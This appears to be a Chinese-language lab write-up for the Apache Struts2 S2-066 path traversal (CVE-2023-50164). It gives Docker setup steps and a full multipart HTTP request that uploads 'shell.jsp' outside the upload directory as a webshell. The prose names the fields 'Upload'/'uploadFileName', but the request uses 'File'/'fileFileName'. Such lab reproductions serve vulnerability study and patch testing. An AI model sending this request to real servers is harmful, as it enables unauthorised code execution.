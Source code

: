 # Struts2 S2-066 路径穿越漏洞（CVE-2023-50164）

Apache Struts2 是一个流行的开源 Web 应用框架，用于开发 Java EE Web 应用。它使用并扩展了 Java Servlet API，鼓励开发者采用模型-视图-控制器（MVC）架构。该框架为开发者提供了丰富的标签和实用工具，以创建易于维护和扩展的企业级 Web 应用。

Apache Struts2 S2-066 是一个存在于文件上传功能中的路径穿越漏洞。攻击者可以通过操纵表单字段名称的大小写，将文件上传到预期上传目录之外的位置。

在 Struts2 的文件上传处理过程中，框架通常只保留上传文件的基本名称（basename）以防止路径穿越。但是，由于处理过程中的一个逻辑缺陷，攻击者可以通过以下方式绕过这个保护：

1. 使用首字母大写的表单字段名（例如，使用 "Upload" 而不是 "upload"）
2. 提供一个包含目标路径穿越文件名的单独表单字段

这使得未经处理的文件名可以覆盖基本名称保护，最终导致成功的路径穿越。

参考链接：

- <https://cwiki.apache.org/confluence/display/WW/s2-066>
- <https://y4tacker.github.io/2023/12/09/year/2023/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%88%86%E6%9E%90-S2-066/>

## 环境搭建

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可看到应用页面，这是一个简单的文件上传页面。

## 漏洞复现

首先，尝试将 JSP 文件上传到正常的上传目录：

![普通上传](1.png)

虽然文件上传成功，但由于服务器配置，JSP 代码无法在上传目录`upload/`中执行：

![执行失败](2.png)

使用以下请求，利用 S2-066 漏洞将文件上传到上传目录之外：

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Length: 331

------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="File"; filename="shell.jsp"
Content-Type: text/plain

<%
  out.println("hello world");
%>
------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="fileFileName"

../shell.jsp
------WebKitFormBoundaryl6ZFZPznNSPZOFJF--
```

注意利用过程中的关键要素：

- 表单字段名使用首字母大写（"Upload"）
- 单独的 "uploadFileName" 字段包含路径穿越的 payload：`../shell.jsp`

![成功上传](3.png)

JSP 文件现在被上传到了受限上传目录之外，并且可以被执行：

![Webshell 执行](4.png)

现在你可以通过访问 `http://your-ip:8080/shell.jsp` 来访问 webshell。
